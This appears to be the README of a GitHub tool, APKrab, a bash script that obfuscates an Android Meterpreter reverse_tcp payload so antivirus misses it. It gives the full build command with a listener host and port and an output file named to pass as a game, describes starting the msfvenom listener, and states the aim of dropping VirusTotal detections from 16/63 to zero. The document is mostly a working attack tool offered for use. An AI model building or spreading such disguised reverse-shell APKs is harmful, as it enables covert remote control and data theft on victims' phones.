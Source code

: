 # Dependencies
To use APKrab you first need to install apktool and default-jdk

# APKrab
APKrab is a dummy bash script to obfuscate android meterpreter by mixing names and permissions in AndroidManifest.xml and other files and directories
![Preview](https://cdn.rawgit.com/whoisML/APKrab/master/image/vmplayer_R3kyjZHvkA.jpg)

# Usage
First we must give execution permissions with chmod +x APKrab.sh
Then we can do for example:
./APKrab.sh -p android/meterpreter/reverse_tcp -H 10.0.0.16 -P 7777 -o amon-us.apk

APKrab also has default options we can use them with:
./APKrab.sh -g
![Preview](https://cdn.rawgit.com/whoisML/APKrab/master/image/vmplayer_ZW2I2Xya03.jpg)

At the end APKrab will ask to generate a msfvemon listener if so then it will ask to launch it
![Preview](https://cdn.rawgit.com/whoisML/APKrab/master/image/vmplayer_Icsbs5mvuD.jpg)

# virustotal results (DONT UPLOAD YOUR SAMPLES TO VIRUSTOTAL)
In this example we hit 16/63 in virustotal so hope with the time and your modifications we can hit 0 flagged
![Preview](https://cdn.rawgit.com/whoisML/APKrab/master/image/vmplayer_Wdeanc6BeL.jpg)
